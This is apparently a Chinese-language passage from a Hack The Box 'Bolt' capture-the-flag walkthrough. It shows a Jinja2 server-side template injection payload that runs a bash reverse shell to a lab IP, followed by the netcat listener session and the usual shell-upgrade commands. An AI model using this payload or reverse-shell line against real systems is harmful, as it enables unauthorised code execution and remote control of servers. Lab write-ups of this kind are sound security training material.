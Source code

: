 检查用户确认配置文件更改的邮件

如果我们单击该电子邮件中的链接，我们将收到第二封电子邮件，确认已进行了更改:

![](img/0de37cd797a1c821d2c0f9858f226587.png)

带有我们泄漏数据的确认电子邮件

# 反向外壳

我们可以看到 passwd 文件的内容，确认我们有服务器端代码执行。现在我们可以用同样的方法来处理一个反向的 shell。我不得不尝试几个不同的例子，最终我发现这一个可行:

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(‘/bin/bash -c “/bin/bash -i >& /dev/tcp/10.10.14.192/4444 0>&1”’).read() 
}}
```

像之前一样改变配置文件，提交，切换到邮件，并点击其中的链接，以启动我们的反向外壳。切换到 Kali 上等待的 netcat 监听器，我们看到我们连接上了:

```
┌──(root💀kali)-[~/htb/bolt]
└─# nc -nlvp 4444  
listening on [any] 4444 ...
connect to [10.10.14.192] from (UNKNOWN) [10.10.11.114] 60402
bash: cannot set terminal process group (997): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bolt:~/demo$
```

首先让我们升级我们的外壳:

```
www-data@bolt:/$ which python3
/usr/bin/python3
www-data@bolt:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@bolt:/$ ^Z  
zsh: suspended  nc -nlvp 4444
┌──(root💀kali)-[~/htb/bolt]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 4444
www-data@bolt:/$
```
